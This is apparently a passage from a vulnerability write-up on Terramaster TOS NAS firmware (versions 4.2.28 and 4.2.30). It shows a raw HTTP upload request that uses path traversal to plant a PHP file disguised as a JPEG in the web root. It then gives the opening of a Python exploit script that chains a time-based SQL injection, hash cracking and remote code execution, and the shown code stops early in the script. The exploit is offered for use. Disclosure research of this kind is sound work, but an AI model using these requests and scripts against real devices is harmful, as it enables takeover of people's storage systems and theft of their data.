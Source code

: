 ```
POST http://nas.ip:8181/include/ajax/ajaxdata.php HTTP/1.1
Host: nas.ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data; boundary=---------------------------272557087831800767091975222786
Content-Length: 515
Origin: http://nas.ip:8181
Connection: keep-alive
Referer: http://nas.ip:8181/tos/index.php?setting
Cookie: PHPSESSID=d4ccdee5a084ad3a4534ba5982ca9db1; tos_visit_time=1646086250; kod_name=admin; noshow=1
Upgrade-Insecure-Requests: 1

-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="uploaddir"

../../../../../../usr/www
-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="sysbakfunction"

2
-----------------------------272557087831800767091975222786
Content-Disposition: form-data; name="filename"; filename="allyourbase.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------272557087831800767091975222786--
```

## Destroy
Once again, we can chain some of the vulnerabilities to get to an RCE, sadly this time it requires a tiny bit of effort.

We first run the script to get a user's hash, then crack it with your favorite cracking too, finally launch the script again giving the hash and credentials. 

By default the script attempts to grab the admin's hash if no user is specified. Enjoy:

```python
#!/bin/env python3

#Title: Terramaster TOS Time based SQLi & Multiple RCEs
#Author: n0tme (thatsn0tmysite)
#TOS version: 4.2.28-2201201720, 4.2.30-2203011629

from pydoc import describe
import requests
import shutil, os, time
from argparse import ArgumentParser
import urllib3
import base64, hashlib, re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

USER=""
PASS=""
B64USER=""
TARGET=""
MAC_ADDRESS=""
RE=re.compile(r'(?:[0-9a-fA-F]:?){12}')

def tos_encrypt_str(toencrypt):
    key = MAC_ADDRESS[6:] 
```